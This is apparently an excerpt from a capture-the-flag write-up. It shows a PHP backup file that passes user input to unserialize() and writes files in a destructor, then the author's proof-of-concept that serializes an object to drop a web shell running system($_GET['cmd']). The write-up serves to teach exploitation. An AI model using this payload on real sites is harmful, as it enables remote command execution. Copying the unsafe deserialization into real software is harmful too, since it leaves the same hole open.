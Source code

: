 ## Web exploitation

`sator.php.bak`

```php
<?php

class DatabaseExport
{
  public $user_file = 'users.txt';
  public $data = '';

  public function update_db()
  {
    echo '[+] Grabbing users from text file <br>';
    $this-> data = 'Success';
  }


  public function __destruct()
  {
    file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
    echo '[] Database updated <br>';
  //	echo 'Gotta get this working properly...';
  }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

There is a PHP deserialization here that allow us to upload any arbitrary content.

We can even find a [similar case](https://security.stackexchange.com/questions/176263/why-does-this-php-object-injection-exploit-work) on security stackexchange.

My PoC to generate the serialized webshell payload:

```php
<?php

class DatabaseExport
{
  public $user_file = 'noraj.php';
  public $data = '<?php system($_GET["cmd"])?>';
}

$klass = new DatabaseExport();

$payload = serialize($klass);

echo $payload;
```
